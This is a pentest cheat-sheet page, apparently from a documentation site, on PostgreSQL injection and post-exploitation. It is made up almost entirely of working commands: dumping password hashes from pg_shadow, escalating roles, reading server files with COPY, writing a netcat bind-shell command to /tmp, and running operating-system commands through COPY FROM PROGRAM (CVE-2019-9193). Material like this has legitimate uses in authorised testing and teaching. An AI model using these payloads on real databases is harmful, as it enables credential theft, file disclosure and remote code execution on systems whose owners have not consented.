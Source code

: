 ```yaml
---
title: PostgreSQL Injection
parent: SQL Injection
layout: default
nav_order: 3
---
```


## Connecting
Default username is postgres with no password. Check more commands here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

## Querying / Exploiting
To list version: `SELECT version()`

Show the current user: `SELECT user;`

Concatenating - put 2 together: `concat(name1,':',name2)`

Show password hashes for all users: `SELECT usename, passwd FROM pg_shadow`

Check if you are superuser (either works):\
`SHOW is_superuser;`
`SELECT current_setting('is_superuser');`

If you are not superuser, but has CREATEROLE, can make yourself one: `GRANT pg_read_server_files TO username;`

Show all **databases**:\
`select schema_name from information_schema.schemata;`

Show the **table name**:\
`select concat(schemaname,':',tablename) FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';`\
List tables from all schemas: `\dt *.*`

Show the **column name** if table name is mytable:\
`SELECT column_name FROM information_schema.columns where table_name = 'users';`

Finally select object use\
`select columnname from database.table;`

If you have direct DB access (via `psql`, usually through account postgres), can use the following:\
`\list` to list database\
`\c` database name to use the database\
`\d` to list the tables

To read file when you have direct DB access, use the following:\
`CREATE TABLE demo(t text);`\
`COPY demo from '[FILENAME]';`\
`SELECT * FROM demo;`

File write:\
`CREATE TABLE pentestlab (t TEXT);`\
`INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');`\
`SELECT * FROM pentestlab;`\
`COPY pentestlab(t) TO '/tmp/pentestlab';`\
Or one liner write:\
`COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';`

Command execution (CVE-2019-9193) line 1 and 5 optional. line 4 view results, can run line 3 and 4 repeatedly to execute different commands):\
`DROP TABLE IF EXISTS cmd_exec;`\
`CREATE TABLE cmd_exec(cmd_output text);`\
`COPY cmd_exec FROM PROGRAM 'whoami';`\
`SELECT * FROM cmd_exec;`\
`DROP TABLE IF EXISTS cmd_exec;`
